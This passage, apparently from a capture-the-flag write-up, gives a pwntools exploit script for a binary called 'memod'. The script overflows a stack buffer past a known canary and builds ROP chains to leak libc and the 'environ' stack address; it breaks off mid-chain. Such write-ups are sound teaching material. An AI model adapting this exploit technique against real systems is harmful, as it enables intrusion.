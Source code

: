 ## 0x03. Payload
### payload using environ
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

DEBUG = True
BINARY = "memod"
LIBRARY = "libc.so.6"

bp = {
    'read_of_main' : 0x08048703,
    'fgets_of_main' : 0x804875a,
    'canary_backup' : 0x08049b2c,
    'end_of_main' : 0x080487ce,
}

gs = f'''
b *{bp['fgets_of_main']}
b *{bp['end_of_main']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    # leak libc
    s.send(b"1" * 33)                   # overwrite fd
    s.recv(1024)

    payload = b"A" * 0x124              # dummy
    payload += b"\x00\x00\x00\x00"      # canary
    payload += b"BBBB"                  # sfp
    payload += p32(elf.plt['puts'])     # ret #1
    payload += p32(0x080485e4)          # ret #2 (pop ret gadget)
    payload += p32(elf.got['write'])    # argument #1
    payload += p32(elf.symbols['main']) # ret #3
    s.sendline(payload)
    r = s.recv(1024)
    libc = u32(r[0:4]) - lib.symbols["write"]
    environ = libc + lib.symbols['environ']
    log.info(f"libc : {hex(libc)}")
    log.info(f"environ : {hex(environ)}")

    # leak stack
    s.send(b"2" * 33)                   # overwrite fd
    s.recv(1024)

    payload = b"C" * 0x124              # dummy
    payload += b"\x00\x00\x00\x00"      # canary
    payload += b"DDDD"                  # sfp
    payload += p32(elf.plt['puts'])     # ret #1
    payload += p32(0x080485e4)          # ret #2 (pop ret gadget)
```